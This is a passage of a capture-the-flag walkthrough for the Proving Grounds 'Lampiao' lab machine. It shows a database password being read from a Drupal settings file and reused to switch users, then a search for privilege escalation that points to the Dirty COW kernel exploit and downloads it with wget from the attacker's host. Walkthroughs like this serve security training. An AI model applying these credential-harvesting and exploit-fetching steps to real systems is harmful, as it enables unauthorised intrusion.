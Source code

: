 The default Drupal configuration files are located in _sites/default/settings.php_

```bash

www-data@lampiao:/var/www/html/sites/default$ less settings.php

$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'Virgulino',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

Discovered password Virgulino
{: .warn }

## Pivot to user Tiago

We can use the discovered password _Virgulino_ to switch to the _Tiago_ user.

```bash
www-data@lampiao:/var/www/html/sites/default$ su tiago
Password:
tiago@lampiao:/var/www/html/sites/default$ id
uid=1000(tiago) gid=1000(tiago) groups=1000(tiago)

```

## Run Linpeas

Download _linpeas_ and execute

The Linux version is 4.4.0-31-generic which should be vulnerable to the _dirty cow_ kernel exploit.

![linpeas](../../../assets/images/ctfs/proving_grounds/lampiao/linpeas.png)

[Dirty Cow Exploit Raw Code](https://www.exploit-db.com/exploits/40847)

Transfer the exploit to the taget machine.

```bash
tiago@lampiao:/tmp$ wget http://192.168.45.217:8000/40847.cpp
wget http://192.168.45.217:8000/40847.cpp
--2023-11-07 00:52:23--  http://192.168.45.217:8000/40847.cpp
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10531 (10K) [text/x-c++src]
Saving to: ‘40847.cpp’

100%[======================================>] 10,531      --.-K/s   in 0.003s

2023-11-07 00:52:23 (3.22 MB/s) - ‘40847.cpp’ saved [10531/10531]

```

